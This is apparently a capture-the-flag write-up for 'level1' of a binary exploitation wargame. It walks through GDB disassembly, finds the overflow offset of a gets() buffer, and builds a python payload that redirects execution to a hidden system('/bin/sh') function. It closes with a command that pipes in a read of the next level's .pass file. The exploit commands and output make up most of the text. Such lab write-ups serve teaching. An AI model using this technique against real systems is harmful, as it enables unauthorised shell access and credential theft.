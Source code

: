 # Level1

First step - testing the program

	$ ./level1
	coucou

The program wait an input and quit after press enter

Start the program in GDB

	$ gdb level1
	(gdb) disas main
	Dump of assembler code for function main:
	   0x08048480 <+0>:		push   ebp
	   0x08048481 <+1>:		mov    ebp,esp
	   0x08048483 <+3>:		and    esp,0xfffffff0
	   0x08048486 <+6>:		sub    esp,0x50 <--------- Buffer of 80
	   0x08048489 <+9>:		lea    eax,[esp+0x10]
	   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
	   0x08048490 <+16>:	call   0x8048340 <gets@plt>
	   0x08048495 <+21>:	leave
	   0x08048496 <+22>:	ret
	End of assembler dump.

Just a `gets()` call and quit

List the functions of the program

	(gdb) info function
	All defined functions:

	Non-debugging symbols:
	0x080482f8  _init
	0x08048340  gets@plt
	0x08048350  fwrite@plt
	0x08048360  system@plt
	0x08048370  __gmon_start__@plt
	0x08048380  __libc_start_main@plt
	0x08048390  _start
	0x080483c0  __do_global_dtors_aux
	0x08048420  frame_dummy
	0x08048444  run <---------- function not called in main
	0x08048480  main
	0x080484a0  __libc_csu_init
	0x08048510  __libc_csu_fini
	0x08048512  __i686.get_pc_thunk.bx
	0x08048520  __do_global_ctors_aux
	0x0804854c  _fini

We can see a function "run", not called in the main

Disassemble this function

	(gdb) disas run
	Dump of assembler code for function run:
	   0x08048444 <+0>:		push   ebp
	   0x08048445 <+1>:		mov    ebp,esp
	   0x08048447 <+3>:		sub    esp,0x18
	   0x0804844a <+6>:		mov    eax,ds:0x80497c0
	   0x0804844f <+11>:	mov    edx,eax
	   0x08048451 <+13>:	mov    eax,0x8048570
	   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
	   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
	   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
	   0x0804846a <+38>:	mov    DWORD PTR [esp],eax
	   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
	   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
	   0x08048479 <+53>:	call   0x8048360 <system@plt> <------- system call
	   0x0804847e <+58>:	leave
	   0x0804847f <+59>:	ret
	End of assembler dump.

There is a `system()` call

Check the strings in the program

	$ strings level1
	...
	/bin/sh
	...

We can assume that there is a `system("/bin/sh")`

We need to force the call to the "run" function

**********************************

Check the exact buffer size with a pattern from wiremask.eu/tools/buffer-overflow-pattern-generator

	(gdb) run
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

	Program received signal SIGSEGV, Segmentation fault.
	0x63413563 in ?? ()

	(gdb) print $eip
	$1 = (void (*)()) 0x63413563

Put the content of EIP in the checker of the tool and get the offset : 76

The exact buffer size is 76

Using the gdb-peda pattern tool

	(gdb-peda)$ pattern create 200 pattern_file

	(gdb-peda)$ run < pattern_file
	Program received signal SIGSEGV, Segmentation fault.
	...
	EIP: 0x41344141 ('AA4A')
	...

	(gdb-peda)$ pattern search
	Registers contain pattern buffer:
	...
	EIP+0 found at offset: 76
	....

The buffer size is 76

**********************************

Test it

	$ python -c "print 'a'*77" | ./level1
	Segmentation fault (core dumped)

Open with gdb-peda and put 80 bytes of 'a' (76 + 4 for overwrite EIP)

	$ python -c 'print "a"*80' > payload
	(gdb-peda)$ run < payload
	...
	EIP: 0x61616161 ('aaaa')
	...

Good, the last 4 bytes is will be the address of the function "run" for calling it instead of return address

The address of the "run" function is "0x08048444" has seen above

Beware of the little endian

	$ python -c 'print "a"*76+"\x44\x84\x04\x08"' > /tmp/payload

Now execute with our payload

	$ cat /tmp/payload | ./level1
	Good... Wait what?
	Segfault

The function "run" was executed but stdin is not open, we need to do it in one line

	$ (cat /tmp/payload ; echo whoami) | ./level1
	level1
	Good... Wait what?
	level2
	Segmentation fault (core dumped)

Ok it's works

$ (cat /tmp/payload ; cat /home/user/level2/.pass) | ./level1

Done!
